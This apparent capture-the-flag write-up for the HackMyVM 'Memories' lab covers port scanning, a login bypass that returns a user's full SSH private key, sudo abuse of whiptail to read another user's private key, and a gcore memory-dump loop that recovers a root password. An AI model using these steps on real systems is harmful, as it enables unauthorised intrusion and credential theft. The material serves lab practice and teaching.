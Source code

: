 ```yaml
---
layout: post
author: maxin
title:  "Memories"
date:   2022-01-01 10:28:30 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Memories)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 16:40:37 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.203
Nmap scan report for 192.168.0.203
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 d3:66:a3:0a:23:d3:46:e1:e6:6c:ff:ef:2d:0d:ad:7c (RSA)
|   256 93:35:93:8f:6b:7b:1f:11:ce:3a:db:09:15:a5:e1:ac (ECDSA)
|_  256 36:4e:cb:29:6d:64:19:49:15:47:d0:68:d4:0f:c6:a5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 16:40:44 2021 -- 1 IP address (1 host up) scanned in 7.61 seconds
{% endhighlight  %}

# Port 80

We can see a default apache page

## Fuzzing

{% highlight text  %}
/robots.txt           (Status: 200) [Size: 11]
{% endhighlight  %}

On robots.txt we can see another directory `/memories`  

![Untitled](/images/memories/loginPage.png)

I tried to found the creds, but i don’t find anything

But we can bypass this login 

{% highlight bash  %}
curl -X POST "192.168.0.203/memories/index.html"
{% endhighlight  %}

{% highlight text  %}
#Laura private key
laura
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA2W+WidI/grDh9S7BHggHhYFtusWhcArliwIzfEUbjxI+YSMxaCpR
PmPQHVy9dMWW0Joml9ShJiH8m2STT4vH36vyWpgBmZRAgm3lnfc/CzOzI+onbJ8IkfQiG0
RAnGowyax9qB1JYz07lYqlEsnYA39M98yLNtYZnO7cbAFp6vOz82LCQFm3JoOENmkQQlzG
kx0tI9sDtDHgAughL+Gig23nEFcJVYZlms1vwFbTBV3QafbxSmstIdgr4CfODM/tKjTPMD
dTqFEf5CEi+3cFiNBRr4FVfsb2otaOwzZ5mSgzsZ/WvuGZ1lnrrSb61J5aH6/3w/3/5TEK
BCtMDc5fSwAAA8he+yvgXvsr4AAAAAdzc2gtcnNhAAABAQDZb5aJ0j+CsOH1LsEeCAeFgW
26xaFwCuWLAjN8RRuPEj5hIzFoKlE+Y9AdXL10xZbQmiaX1KEmIfybZJNPi8ffq/JamAGZ
lECCbeWd9z8LM7Mj6idsnwiR9CIbRECcajDJrH2oHUljPTuViqUSydgDf0z3zIs21hmc7t
xsAWnq87PzYsJAWbcmg4Q2aRBCXMaTHS0j2wO0MeAC6CEv4aKDbecQVwlVhmWazW/AVtMF
XdBp9vFKay0h2CvgJ84Mz+0qNM8wN1OoUR/kISL7dwWI0FGvgVV+xvai1o7DNnmZKDOxn9
a+4ZnWWeutJvrUnlofr/fD/f/lMQoEK0wNzl9LAAAAAwEAAQAAAQAMm4PHCgHUuhzf8o4Q
B7cn7pFGOx9ZN8iHfuEtW3R1n0EusLO0rn93dqIikbYKh0pvXgDO3O1bIK1c9T/1ZM16Eq
ZCyn2NQiNbbLPbrPJi2+SPOIyAp9f/XoB7xEFa0G1zxCSlEs2mi25hBWD87ecwjLkRxTJt
Q4zIpLDzMkHJ9awYwCkweO2Oq3ia4L01nSXEAnhNfC074LT/mvvmOWebB37i0WHXn2iLMO
ab2yF4GWZcsVaU3DC08ZQHEOn/98xEV/22SLhlqxzK/XPk2XK/e2Egdg3qM3s9QDvzv1Qj
WSp+MVnbezr+e6qPwLmDHAtLY34U6fMDndcautebRNDBAAAAgEtUAUhMxTiu2c0wASGDrC
+/kcLSJhUg8p96546I20cMsmJiYZUH/hFITe4mzhehrYx74XJu9UePpvf7nePAFcHpKZki
Uf2p86G1/zQf4ti0a5h6Udbyon9d7Z6gq38loJoeYbyqCoBAO93ZgdxzbGZd0sLiSEeSNa
98kUV8oYPCAAAAgQD6dbOG9CnC8Y4Bl2J8/1JFWLh9YoZfQd5G+NsJrGiMlQjBgtPemsdQ
11Z0l6VSQhPMtQFbvHhpYwzFDNQbfRbkZgenQ8JDL5lEkZ7T8bkhtakZwMOIM9ewyN92eU
MiIFaBPKZ9PXxSYcnQcW2iGa8xwlIO0wg4kNDPARSmrBOZ1wAAAIEA3j7hORliNXJUafDa
6iSzgbBoKy1bdyvc+GlyLYdtYAHblglzwy8TJUu4nIXQZzb4MrlKhG32s4AfaXoRVc2Uo7
RCk0pW+N3Nyao0xod+3DeGCD8ZiEpNON4K9HM6fY6PA1ecpbXepR3h9LzZmSVFfyxngw2F
rrO2R16UEDh4v60AAAAObGF1cmFAbWVtb3JpZXMBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight  %}

# User

Connect to laura using the private key

{% highlight bash  %}
sudo -l

User laura may run the following commands on memories:
    (lucy) NOPASSWD: /usr/bin/whiptail
{% endhighlight  %}

Getting Lucy private key

{% highlight bash  %}
sudo -u lucy  whiptail --textbox --scrolltext /home/lucy/.ssh/id_rsa 0 0
{% endhighlight  %}

Copy and change the chmod to 600

# Root

On Lucy user, run:

{% highlight bash  %}
sudo -l

User lucy may run the following commands on memories:
    (ALL : ALL) NOPASSWD: /usr/bin/gcore
{% endhighlight  %}

With gcore binary we can generate a core file for a running process

Using the pspy64 program: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Run this binary and watch the process 

{% highlight bash  %}
#This is a interesting one
2021/12/30 17:45:01 CMD: UID=0    PID=11885  | /bin/sh -c /root/memories
{% endhighlight  %}

This process is schedule to be execute every minute through crontab

We can create a script to wait until the process execute and grep it

{% highlight bash  %}
while true; do i=$(ps -ef | grep /root/memories |grep -v grep | awk -F " " '{print $2}'); sudo gcore $i -o $(date); done
{% endhighlight  %}

This script grep the name of the process and the pid, after that calls the gcore with the right pid

Run strings against the files 

{% highlight bash  %}
strings core.* | grep password
My password is whataboutyourthinking
{% endhighlight  %}

root:whataboutyourthinking